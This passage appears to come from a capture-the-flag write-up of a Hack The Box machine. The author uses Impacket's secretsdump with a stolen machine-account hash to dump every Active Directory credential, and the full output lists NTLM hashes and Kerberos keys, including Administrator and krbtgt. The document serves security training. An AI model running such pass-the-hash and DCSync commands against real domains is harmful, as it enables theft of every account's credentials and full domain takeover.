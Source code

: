 #### Dump AD Hashes

Now that I have the NTLM hash for the DC01 machine account, I’ll ask it to give me all the hashes for the domain with `secretsdump`:

```

oxdf@hacky$ secretsdump.py coder.htb/dc01\$@dc01.coder.htb -hashes :56dc040d21ac40b33206ce0c2f164f94 -dc-ip dc01.coder.htb
Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:26000ce1f6ca4029ec5d3a95631e797c:::
coder.htb\e.black:1106:aad3b435b51404eeaad3b435b51404ee:e1b96bbb66a073787a3310b5a956200d:::
coder.htb\c.cage:1107:aad3b435b51404eeaad3b435b51404ee:3ab6e9f70dbc0d19623be042d224b993:::
coder.htb\j.briggs:1108:aad3b435b51404eeaad3b435b51404ee:e38976c0b20e3e41e9c62da792115a33:::
coder.htb\l.kang:1109:aad3b435b51404eeaad3b435b51404ee:b8aba4878e4777864b292731ac88b4cd:::
coder.htb\s.blade:1110:aad3b435b51404eeaad3b435b51404ee:4e4a79beed7d042627d0a7b10f5d008a:::
coder.htb\svc_teamcity:5101:aad3b435b51404eeaad3b435b51404ee:4c5a6890e09834a6834dbf7a76bf20cb:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:86a6a038ff6058c56a74e2e35008f6b037b8e7bca8c75cc5ee4495f77d0be71e
Administrator:aes128-cts-hmac-sha1-96:6d63b0853502cbbc8c8e40ad8fe88fa3
Administrator:des-cbc-md5:37feabd9d9575785
krbtgt:aes256-cts-hmac-sha1-96:aeb517a1efec8b79479cb1432e734555bc1039bcbd77bcdc39234b37199a70d3
krbtgt:aes128-cts-hmac-sha1-96:2bab4af978e4cee0b58fa1d377d35981
krbtgt:des-cbc-md5:100489b5839798cb
coder.htb\e.black:aes256-cts-hmac-sha1-96:ccb6c47af9a05d91e7610fe396cd8ffcc0e51279a2eee253fab1fb40536a5a85
coder.htb\e.black:aes128-cts-hmac-sha1-96:650ad0d49ab4bcff325a7f2a846d433f
coder.htb\e.black:des-cbc-md5:89290da2c2cd16ec
coder.htb\c.cage:aes256-cts-hmac-sha1-96:ea9cc2144c3106e9325b1ddda16c27c644d9f9b7e95098581ceba19c75d9b296
coder.htb\c.cage:aes128-cts-hmac-sha1-96:2cff13848c9e8d07339a6ab41bf72088
coder.htb\c.cage:des-cbc-md5:fd6d578510df1af1
coder.htb\j.briggs:aes256-cts-hmac-sha1-96:ec3ac8b99094903a3ca006a725dc0867666347efb4baf04d8b2f8b0305ab65ee
coder.htb\j.briggs:aes128-cts-hmac-sha1-96:39050d78545c40645fa889c13200f8f7
coder.htb\j.briggs:des-cbc-md5:7f5286d35def8f15
coder.htb\l.kang:aes256-cts-hmac-sha1-96:d7eb03d2695638c4ba423cd88e22dcdd7c0f6da996e5d6ed3af6c6d7e6c56661
coder.htb\l.kang:aes128-cts-hmac-sha1-96:25ad8331aa0fa2b26e220040b9e55937
coder.htb\l.kang:des-cbc-md5:571a573e61ced640
coder.htb\s.blade:aes256-cts-hmac-sha1-96:ceeab374597121113f3bdee3aab1fed0522506909b2f1ec24dfe36045eb3c252
coder.htb\s.blade:aes128-cts-hmac-sha1-96:69f4cada02748fba948e4c15460add9e
coder.htb\s.blade:des-cbc-md5:26eca8ad9deaada2
coder.htb\svc_teamcity:aes256-cts-hmac-sha1-96:b6c7ed72b4434a89c56295df6b42ca68937702dda15f90f23423e8712abce030
coder.htb\svc_teamcity:aes128-cts-hmac-sha1-96:d6604e2fadb40bbf71708e7b9c9734a7
coder.htb\svc_teamcity:des-cbc-md5:264ab5645ed91c86
DC01$:aes256-cts-hmac-sha1-96:a43b686fdd5f2e576ad834c5b1d4327dd5bdbd3ec579677343a2c6c43c8f1740
DC01$:aes128-cts-hmac-sha1-96:22192237a3cb399c19a6b469dcd1cba8
DC01$:des-cbc-md5:cb9758c162ba4943
[*] Cleaning up...

```
